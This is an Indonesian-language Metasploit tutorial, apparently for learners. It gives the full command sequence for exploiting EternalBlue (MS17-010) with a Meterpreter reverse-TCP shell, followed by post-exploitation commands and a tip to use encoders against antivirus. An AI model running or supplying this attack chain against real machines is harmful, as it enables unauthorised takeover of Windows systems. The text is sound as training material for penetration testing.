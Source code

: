 # Menjalankan Eksploitasi dengan Metasploit Framework

## Apa Itu Eksploitasi?

Eksploitasi adalah proses menyerang dan memanfaatkan kerentanan pada sistem target untuk mendapatkan akses tidak sah, baik melalui `shell`, `akses file`, atau `kontrol penuh`.

Dalam Metasploit Framework, eksploitasi dijalankan melalui modul `exploit` + `payload`, misalnya:

- **Exploit**: `exploit/windows/smb/ms17_010_eternalblue`
- **Payload**: `windows/meterpreter/reverse_tcp`

## Proses Dasar Eksploitasi

Langkah-langkah umum untuk menjalankan eksploitasi di Metasploit Framework:

1. Pilih dan muat modul exploit
2. Tentukan target (RHOST, RPORT)
3. Pilih payload
4. Konfigurasi payload (LHOST, LPORT, dll)
5. Jalankan exploit
6. Kelola sesi yang terbuka (jika berhasil)

## Contoh: Eksploitasi SMB dengan EternalBlue (MS17-010)

### Langkah 1 - Buka MSFConsole

```
msfconsole
```

Tunggu sampai muncul prompt seperti ini:

```
msf6 >
```

### Langkah 2 - Cari Exploit yang Sesuai

```
search eternalblue
```

**Contoh hasil:**

```
exploit/windows/smb/ms17_010_eternalblue
```

### Langkah 3n - Gunakan Exploit

```
use exploit/windows/smb/ms17_010_eternalblue
```

### Langkah 4 - Lihat Opsi Konfigurasi

```
show options
```

### Langkah 5 - Setting Target dan Payload

```
set RHOSTS 192.168.1.10
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
```

### Langkah 6 - Jalankan Exploit

```
exploit
```

Jika berhasil, kamu akan mendapatkan sesi Meterpreter.

### Contoh Output Berhasil:

```
[*] Sending stage (203846 bytes) to 192.168.1.10
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 2 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-05-07 20:27:03 +0700

meterpreter > 
```

Setelah berhasil mendapatkan sesi Meterpreter, kamu bisa melakukan beberapa hal diantaranya:

Melihat informasi sistem target:

```
sysinfo
```

Menampilkan User ID (UID):

```
getuid
```

Membuka command shell (cmd.exe) dari mesin korban:

```
shell
```

## Troubleshooting Umum

| Masalah | Solusi |
|:--:|:--:|
| Tidak ada sesi yang terbuka	| Cek firewall, antivirus, atau salah setting RHOST/LHOST |
| Payload tidak terkirim | Gunakan encoder atau coba port lain |
| exploit stuck | Gunakan `set VERBOSE true` untuk debug |

## Kesimpulan

Eksploitasi di Metasploit Framework memerlukan:

1. Pemahaman modul dan payload
2. Konfigurasi parameter yang akurat
3. Kesabaran dan analisa ketika exploit gagal

Dengan latihan dan memahami pola kerja eksploitasi, kamu bisa mengeksekusi serangan yang lebih kompleks dan efisien.
